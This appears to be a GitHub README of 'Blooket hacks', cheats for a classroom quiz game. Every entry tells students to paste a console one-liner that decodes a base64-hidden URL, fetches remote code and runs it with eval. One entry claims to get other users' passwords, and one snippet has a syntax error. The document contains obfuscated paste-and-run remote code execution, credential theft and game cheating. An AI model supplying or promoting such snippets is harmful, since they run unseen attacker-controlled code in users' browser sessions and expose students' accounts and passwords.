 # Blooket
blooket hacks

## Global


## <a id="addTokens.js"></a>addTokens.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxBZGRUb2tlbnMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

```


## <a id="spamOpenBoxes.js"></a>spamOpenBoxes.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxTcGFtT3BlbkJveGVzLmpzb24=')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

## <a id="sellDupeBlooks.js"></a>sellDupeBlooks.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTM2L2dsb2JhbFNlbGxEdXBlQmxvb2tzLmpz=')).then((res => res.text()).then(t => eval(JSON.parse(t)));
```

## <a id="getEveryAnswerCorrect.js"></a>getEveryAnswerCorrect.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxFdmVyeUFuc3dlckNvcnJlY3QuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```



## Gold








## <a id="chest-esp.js"></a>chest-esp.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nb2xkQ2hlc3RFU1AuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

## <a id="Getgold"></a>Getgold.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nb2xkR2V0R29sZC5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

## Factory 








## <a id="GetMegaBot"></a>GetMegaBot.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9mYWN0b3J5R2V0TWVnYUJvdC5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```
## <a id="GetCash"></a>GetCash.js

Open console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9mYWN0b3J5R2V0Q2FzaC5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));

```


## Crypto







## <a id="GetCrypto"></a>GetCrypto.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9jcnlwdG9HZXRDcnlwdG8uanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```
## <a id="GetOtherUsersPasswords"></a>GetOtherUsersPasswords.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9jcnlwdG9HZXRPdGhlcnNQYXNzd29yZHMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```


## Tower Defence









## <a id="ChangeGameRound"></a>ChangeGameRound.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90ZENoYW5nZUdhbWVSb3VuZC5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

## <a id="ClearEnemies"></a>ClearEnemies.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90ZENsZWFyRW5lbWllcy5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

## <a id="GetCash"></a>GetCash.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90ZEdldENhc2guanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```


## Tower Of Doom











## <a id="AddCoins"></a>AddCoins.js
Open Console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90b2RBZGRDb2lucy5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```
## <a id="LowerAllEnemyStats"></a>LowerAllEnemyStats.js
Open Console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90b2RMb3dlckFsbEVuZW15U3RhdHMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```




## More hacks are coming soon but i had to fix the old ones before making new ones. 
## If someone coments on this with more working hacks i will add them.

